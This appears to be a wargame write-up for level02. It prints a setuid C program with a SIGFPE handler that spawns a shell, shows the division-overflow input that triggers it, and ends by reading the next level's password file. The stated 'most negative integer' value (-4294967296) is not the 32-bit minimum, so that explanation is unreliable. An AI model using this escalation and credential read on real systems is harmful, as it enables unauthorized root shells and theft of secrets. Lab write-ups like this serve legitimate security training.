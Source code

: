 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 2
---
```


## Source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void catcher(int a)
{
    setresuid(geteuid(),geteuid(),geteuid());
    printf("WIN!\n");
    system("/bin/sh");
    exit(0);
}

int main(int argc, char **argv)
{
	puts("source code is available in level02.c\n");

    if (argc != 3 || !atoi(argv[2]))
        return 1;
    signal(SIGFPE, catcher);
    return abs(atoi(argv[1])) / atoi(argv[2]);
}
```
The `catcher()` function is what we want to call.

The `main()` function returns the division of the second and third argument, first being the program name itself.

The program makes `signal` syscall which sets a handler function for a signal. This handle function gets called when the signal is received.
```c
sighandler_t signal(int signum, sighandler_t _handler);
```
In our case the signal is `SIGFPE` and the handler function is `catcher()`.
If we look at the man-page, it tells us when a `SIGFPE` signal is generated.
```
Integer division by zero has undefined result.  On some architectures it will generate a SIGFPE signal.  
(Also dividing the most negative integer by -1 may generate **SIGFPE**.)
```
So `SIGFPE` is generated during divisions, and there is a division occurring in our program.

We cannot perform division by zero because our `argv[2]` is the divisor and the program doesn't allow for it to be zero.
However, `argv[2]` can be -1. Which means we just have to figure out what the most negative integer is and pass it as `argv[1]`
```
level2@io:/levels$ ./level02 -4294967296 -1
source code is available in level02.c

WIN!
sh-4.3$
```
We can cat the password for the next level now.
```
sh-4.3$ cat /home/level3/.pass
```
